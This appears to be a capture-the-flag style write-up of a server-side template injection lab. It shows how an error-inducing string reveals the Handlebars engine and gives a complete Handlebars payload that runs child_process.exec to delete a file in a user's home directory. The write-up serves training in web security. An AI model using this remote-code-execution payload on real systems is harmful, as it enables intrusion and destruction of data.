


## Objective

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

## Solution 

First things first is to identify the template engine and for that, whenever I click on the product it says `Out of stock` through a `message` parameter 

Now let's just pass the following expressions `${{<%[%'"}}%\.` through `message` which will actually crash and show us the error response.. 

Go through it, it shows it utilises `handlebars` as a template engine 



In order to exploit the handlebars, we have public exploit through hacktricks but slightly change the execution from `whoami` to `rm /home/carlos/morale.txt` 

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Now we can just urlencode the above payload through burp decoder and send it as value for `message` parameter.. Payload executes and delete the file called `morale.txt` inside `/home/carlos` as mentioned in the lab objective and that solves the lab 

